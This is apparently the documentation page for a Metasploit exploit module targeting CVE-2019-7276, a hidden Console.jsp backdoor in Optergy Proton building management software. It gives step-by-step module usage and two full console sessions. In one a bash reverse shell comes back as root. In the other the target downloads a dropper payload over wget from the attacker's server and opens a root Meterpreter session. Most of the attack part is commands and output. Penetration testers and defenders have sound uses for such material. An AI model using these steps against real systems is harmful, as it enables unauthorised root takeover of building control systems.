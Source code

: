 ## Vulnerable Application

This module exploits an undocumented backdoor vulnerability (CVE-2019-7276) in the Optergy Proton and Enterprise
Building Management System (BMS) applications. Versions `2.0.3a` and below are vulnerable.
Attackers can exploit this issue by directly navigating to an undocumented backdoor script called `Console.jsp`
in the tools directory and gain full system access.
Successful exploitation results in `root` command execution using `sudo` as user `optergy`.

Please check out this [AttackerKB Article](https://attackerkb.com/topics/QrYFIjnd3J/cve-2019-7276) for more info.

Installing a vulnerable test bed requires a Linux machine with the vulnerable software loaded.
Follow instructions [Optergy OVA Download](https://github.com/h00die-gr3y/Metasploit/tree/main/images),
to download an OVA image with a vulnerable Optergy Proton application (v2.0.3a) installed.

This module has been tested against a Optergy Proton installation with the specifications listed below:

* Optergy Proton
* Version: `2.0.3a`
* Linux OS: Debian 7.11

## Verification Steps

1. `use exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command, 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No additional options.

## Scenarios

### Optergy Proton 2.0.3a on Debian Linux 7.11 - bash reverse shell
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > check
[+] 192.168.201.31:80 - The target is vulnerable.
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.201.10:4444 -> 192.168.201.31:43322) at 2023-03-22 12:45:22 +0000

whoami
root
uname -a
Linux debian 3.2.0-4-amd64 #1 SMP Debian 3.2.96-2 x86_64 GNU/Linux
exit
[*] 192.168.201.31 - Command shell session 1 closed.
```
### Optergy Proton 2.0.3a on Debian Linux 7.11 - Linux Dropper Meterpreter session
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > set target 1
target => 1
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:8080/JKGheHgpr9TQf
[*] Client 192.168.201.31 (Wget/1.13.4 (linux-gnu)) requested /JKGheHgpr9TQf
[*] Sending payload to 192.168.201.31 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (3045348 bytes) to 192.168.201.31
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.31:43377) at 2023-03-22 12:46:57 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.201.31
OS           : Debian 7.11 (Linux 3.2.0-4-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

## Limitations
No limitations identified.
